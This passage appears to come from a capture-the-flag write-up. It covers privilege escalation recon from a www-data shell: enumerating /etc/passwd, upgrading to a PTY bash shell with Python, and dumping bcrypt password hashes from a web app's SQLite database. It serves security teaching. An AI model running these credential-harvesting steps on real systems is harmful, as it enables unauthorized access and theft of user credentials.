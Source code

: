 ## 🔼 Priv Esc to Hish

### 🔎 Recon

Looking at `/etc/passwd` shows that the only relevant users with shell access is `root` and user Hish.

```
www-data@environment:~/app$ grep sh /etc/passwd
grep sh /etc/passwd
root:x:0:0:root:/root:/bin/bash
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
```

I search for the SQLite database used by the web application and find it under `database/database.sqlite`.

```
www-data@environment:~/app$ find . -iname '*.sqlite'
find . -iname '*.sqlite'
./database/database.sqlite
```

The simply Python code snippet `import pty;pty.spawn("/bin/bash")` spawns an interactive PTY bash shell.

```
www-data@environment:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

`sqlite3` is then used to access the SQLite database.  The user password hashes for the users are dumped.  I couldn't crack Hish's password hash.

```
www-data@environment:~/app$ sqlite3 ./database/database.sqlite
sqlite3 ./database/database.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
.tables
cache                  jobs                   sessions
cache_locks            mailing_list           users
failed_jobs            migrations
job_batches            password_reset_tokens
sqlite> .schema users
.schema users
CREATE TABLE IF NOT EXISTS "users" ("id" integer primary key autoincrement not null, "name" varchar not null, "email" varchar not null, "email_verified_at" datetime, "password" varchar not null, "remember_token" varchar, "created_at" datetime, "updated_at" datetime, "profile_picture" varchar);
CREATE UNIQUE INDEX "users_email_unique" on "users" ("email");
sqlite> select name,password from users;
select name,password from users;
Hish|$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
Jono|$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
Bethany|$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
sqlite> .exit
.exit
```
